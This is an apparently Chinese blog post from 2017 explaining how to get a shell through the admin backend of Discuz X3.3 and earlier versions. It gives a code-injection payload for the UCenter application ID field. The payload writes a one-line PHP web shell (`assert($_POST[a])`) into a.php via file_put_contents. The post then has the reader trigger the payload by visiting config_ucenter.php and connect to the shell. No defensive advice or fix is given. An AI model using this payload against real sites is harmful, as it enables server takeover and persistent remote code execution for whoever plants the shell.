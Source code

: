 ```yaml
---
title: "discuz 后台 getshell"
date: 2017-12-07T00:00:00+08:00
draft: false
tags: ['cms']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


适用于 Discuz X3.3 及之前版本

<!--more-->

站长 - Ucenter 设置 - Ucenter 应用 ID

![](http://exp10it-1252109039.cossh.myqcloud.com/2017/12/17/1513512699.jpg)

填入代码

`123');file_put_contents('a.php','<?php assert($_POST[a])?>');//`

保存

本地查看 config_ucenter.php

![](http://exp10it-1252109039.cossh.myqcloud.com/2017/12/17/1513512701.jpg)

访问 /config/config_ucenter.php

![](http://exp10it-1252109039.cossh.myqcloud.com/2017/12/17/1513512703.jpg)

空白

file_put_contents 执行成功

![](http://exp10it-1252109039.cossh.myqcloud.com/2017/12/17/1513512704.jpg)

连接 a.php

![](http://exp10it-1252109039.cossh.myqcloud.com/2017/12/17/1513512707.jpg)